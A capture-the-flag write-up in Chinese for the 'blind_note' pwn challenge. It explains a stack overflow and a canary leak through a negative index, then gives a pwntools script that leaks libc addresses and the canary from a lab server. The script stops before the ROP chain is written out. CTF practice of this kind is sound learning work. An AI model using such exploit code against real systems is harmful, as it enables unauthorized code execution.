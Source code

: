 ida可以发现create函数存在溢出行为，通过create不断地向上覆盖栈。但是存在canary保护，所以得考虑绕过canary。在show函数发现，没有检查日记index是否为负数，就确定偏移，利用它来输出canary值。

在程序中，输入66可以得到puts函数的真实地址，据此可以ROP得到shell。exp如下

```python
from pwn import *
from LibcSearcher import *
import ctypes

def create(num):
    io.recvuntil(">\n")
    io.sendline("1")
    io.sendline(str(num))

context(arch="amd64", os="linux", log_level="debug")

# io = process("./blind_note")
io = remote("172.21.4.12", 10103)

elf = ELF("./blind_note")
main_addr = elf.sym["main"]
popret = 0x400c63


# add a number to position 0
create(123)
# io.recvuntil(">\n")
# io.sendline("1")
# io.sendline("123")

# recv the puts_addr and calculate addr
io.recvuntil(">\n")
io.sendline("66")
io.recvuntil("This is my id:")
puts_addr = u64(io.recv(6).ljust(8, "\x00"))

libc = LibcSearcher("puts", puts_addr)
libc_base = puts_addr - libc.dump("puts")
system_addr = libc_base + libc.dump("system")
binsh_addr = libc_base + libc.dump("str_bin_sh")

# get canary
io.recvuntil(">\n")
io.sendline("2")
io.recvuntil("which one ?\n")
io.sendline("-10")
io.recvuntil("note num is : ")
canary1 = ctypes.c_uint32(int(io.recvline()))
print(canary1.value)

io.recvuntil(">\n")
io.sendline("2")
io.recvuntil("which one ?\n")
io.sendline("-9")
io.recvuntil("note num is : ")
canary2 = ctypes.c_uint32(int(io.recvline()))
print(canary2.value)

# padding and rop
for i in range(25):
    create(123)

create(canary1.value)
create(canary2.value)
```